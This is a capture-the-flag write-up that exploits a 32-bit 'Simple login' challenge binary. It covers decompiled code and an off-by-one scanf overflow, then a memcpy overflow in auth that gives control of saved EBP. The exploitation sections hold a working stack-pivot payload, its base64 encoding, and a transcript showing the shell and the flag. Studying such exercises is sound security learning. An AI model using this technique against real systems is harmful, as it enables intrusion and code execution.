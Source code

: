 # Simple login

## What the program does

Takes input from the standard input and returns some kind of hash out of it.

Example:
```
Authenticate : Hello   
hash : 656a35b2e1593fedfeff660b397bc3f2
```

## Binary examination
- 32 bit
- ELF
- Statically linked
- Canary disabled
- NX bit enabled


## Code Analysis


```c
int main() {
    // -- snip --
    printf("Authenticate : ");
    __isoc99_scanf(&DAT_080da6b5,auth_buffer);
    memset(input,0,0xc);
    local_38 = (void *)0x0;
    decoded_length = Base64Decode(auth_buffer,&local_38);
    if (decoded_length < 0xd) {
        memcpy(input,local_38,decoded_length);
        auth_succeeded = auth(decoded_length);
        if (auth_succeeded == 1) {
            correct();
        }
    }
    else {
        puts("Wrong Length");
    }
    // -- snip --
}
```

So apperantly our input is decoded using base64, and then passed to `auth` function.
If authentication succeeds it returns 1, else returns 0.

```C
uint auth(size_t param_1)
{
  int iVar1;
  undefined local_18 [8];
  char *local_10;
  undefined auStack12 [8];
  
  memcpy(auStack12,input,param_1);
  local_10 = (char *)calc_md5(local_18,0xc);
  printf("hash : %s\n",local_10);
  iVar1 = strcmp("f87cd601aa7fedca99018a8be88eda34",local_10);
  return (uint)(iVar1 == 0);
}
```

If the authentication succeeds it calls to `correct`:

```C
void correct(void)

{
  if (input._0_4_ == -0x21524111) {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }

  exit(0);
}
```


## Exploitation

### Buffer overflow in `0x08049397`

In this address there's a call to `scanf` with the following format: `%30s`. That means that scanf will take 31 bytes as input, 30 characters + 1 nullbyte.

```C
uint decoded_length;
char auth_buffer [30];
// -- snip --
__isoc99_scanf(&DAT_080da6b5,auth_buffer);
```

since auth_buffer is in length of 30, it will overflow with one byte to
decoded_length.

```bash
pwndbg> x/1wx $esp + 0x3c
0xffffd53c:     0x080481d0
# -- Take input --
pwndbg> x/1wx $esp + 0x3c
0xffffd53c:     0x08048100
```

Couldn't find how exactly this finding helps.


### Buffer overflow in `0x080492ba`

```C
uint auth(size_t param_1)
{
    // -- snip --     
    undefined auStack12 [8];
    // -- snip --     
    memcpy(auStack12,input,param_1);
}
```

As we can see in `main`, param_1's length may be up to 13 bytes: 

```C
// in main
if (decoded_length < 0xd)
```

This means the buffer overflows if we enter a value which is 12 bytes (plus nullbytes). When we do that we'll need to encode our payload with base64.

For example:
`AAAAAAAAAAAA` -> `QUFBQUFBQUFBQUFB`

```sh
$ ./login
Authenticate : QUFBQUFBQUFBQUFB
hash : 58d4c1cabdeaca6e39249ddd24bef9c6
Segmentation fault (core dumped)
```

By running the binary in GDB and providing it with `AAAABBBBCCCC` (encoded) I found out that the segfault is happening since we override the saved EBP (in main) with `CCCC`. 

This means that we have full control of EBP.


### Recap 

**Stack frame**
```
------------------------
     Return Address       
------------------------
       Saved EBP            => CCCC
------------------------
     Local Variables
          ...
```

**`LEAVE` instruction**
```asm
mov esp, ebp
pop ebp
```

**`RET` instruction**
```
pop ecx
jmp ecx
```

### Building the payload

We need a payload that will:
- Set EBP to the middle of our decoded input. After the leave instruction in `main` executes, our customly crafted EBP will be assigned to ESP.
- Build the payload so the 4 bytes from our input that'll be popped by `RET` will be the address that we want to jump into.


**Important values**
- Address to jump to: `0x0804927f`
- Decoded input address: `0x0811eb40`


Our payload needs to be:
'AAAA' || [Address to jump] || [Input address]

The input address will first point to `AAAA`, and when the leave instruction executes it'll increase ESP by 4, which means it'll point to the address we want to jump into.

This address will be poped by `RET` and we should get a shell.

```python
In [26]: payload = b'AAAA' + p32(0x0804927f) + p32(0x0811eb40)                                       

In [27]: base64_encode(payload)                   
Out[27]: (b'QUFBQX+SBAhA6xEI\n', 12)

```

## Conclusion
I solved this channel by finding a BOF in `auth` function that let me write anything to `main`'s base pointer. I manipulated that base pointer so it will point to my own buffer, and then when LEAVE and RET execute, I have full control of `main`'s return address ;)

```
Authenticate : QUFBQX+SBAhA6xEI
hash : 6e9c02a33b431aa793c8cf572d8d3b2c
AAA@
ls
flag
log
simplelogin
super.pl
cat flag
control EBP, control ESP, control EIP, control the world~
```